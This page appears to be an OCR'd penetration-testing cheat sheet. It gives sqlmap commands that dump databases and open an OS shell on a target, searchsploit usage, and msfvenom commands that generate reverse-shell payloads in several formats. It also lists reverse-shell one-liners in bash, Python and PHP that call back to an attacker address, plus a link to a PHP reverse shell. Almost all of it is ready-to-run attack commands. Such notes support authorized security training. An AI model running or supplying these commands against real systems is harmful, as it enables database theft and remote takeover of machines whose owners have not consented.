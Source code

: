 - SQLMap - Automated Code execution

```powershell
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user #Testing on parameter names "user", we'll get confirmation
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump #Dumping database

#OS Shell
#  Obtain the Post request from Burp suite and save it to post.txt
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp" #/var/www/html/tmp is the writable folder on target, hence we're writing there

```

---

# Exploitation

## Finding Exploits

### Searchsploit

```bash
searchsploit <name>
searchsploit -m windows/remote/46697.py #Copies the exploit to the current location
```

## Reverse Shells

### Msfvenom

```powershell
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

### One Liners

```powershell
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>
#For powershell use the encrypted tool that's in Tools folder
```

<aside>
💡 While dealing with PHP reverseshell use: [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)
